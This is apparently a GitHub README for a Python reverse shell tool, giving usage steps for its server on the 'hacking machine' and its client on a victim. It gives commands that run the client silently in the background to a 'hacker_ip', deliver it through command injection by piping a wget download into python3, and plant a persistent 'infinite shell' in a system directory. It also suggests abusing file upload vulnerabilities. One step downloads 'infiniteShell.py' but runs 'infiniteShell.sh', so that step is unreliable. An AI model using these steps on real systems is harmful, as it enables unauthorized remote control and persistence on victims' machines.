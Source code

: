 # Usage

## On Hacking machine
`python3 rs_server.py`
<- edit the file to use the port you want or pass it in as an argument (default 8000). 

## Direct Client Deployment
`python3 rs_client.py`
^ edit the file to use the rs_server IP and port you want. 

Or pass them in as an argumenta (default port 8000)
`python3 rs_client.py <rs_server_ip> <rs_server_port>`

Or run as a backgroud job
`nohup python3 rs_client.py <hacker_ip> &> /dev/null &`

## Indirect Client Deployment \[PREFERRED\]
(works with cmd line injection)

- \[SERVER\] Host rs_client.py somehere
- - One option is to start a python web server on the rs_server
-- `python3 -m http.server 8080`   
- \[CLIENT]\ Download + Execute from client machine
-- `wget -O - <host:port/rs_client.py> | python3`
- \[SERVER\] Download + Execute the Infinite shell (keeps rs_client active if it disconnects)
-- Follow these steps once server is connected to client.
-- Navigate to specific dir or Make a hidden dir
--- `cd /usr/bin/local`  
-- Download from your rs_server
--- `wget <host:port/infiniteShell.py>`
-- Run in background witn nohup  
--- `nohup bash infiniteShell.sh &> /dev/null &`


## Indirect Client Deployment \[ALT]\
- Could also exploit a file upload vulnerability and upload the file onto the victim's machine


### Port as an optional argument
Both scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..

